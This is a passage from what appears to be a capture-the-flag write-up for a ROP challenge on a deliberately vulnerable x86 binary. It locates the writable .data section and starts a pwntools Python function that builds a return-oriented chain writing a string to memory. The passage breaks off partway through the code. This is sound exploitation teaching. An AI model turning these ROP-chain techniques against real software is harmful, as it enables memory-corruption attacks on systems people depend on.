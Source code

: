 ![writable sections](/images/badchars/x86-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the
`.data` section which has the address `0x0804a018`

Here is some python code to write to an address
```python
#!/bin/python3
from pwn import *

write_addr = 0x0804a018     # data addr
mov_addr = 0x0804854f       # mov qword [edi], esi
pop_regs = 0x080485b9       # pop esi, edi, ebp
junk = 0xdeadbeef

# write string s to address addr
# return ropchain in bytes
def write_str(addr, s):
    payload = b''
    ebp = p32(junk)

    # write every 4 bytes of a string
    for i in range(0, len(s), 4):

        # prevent slice out of bounds
        j = i+4
```
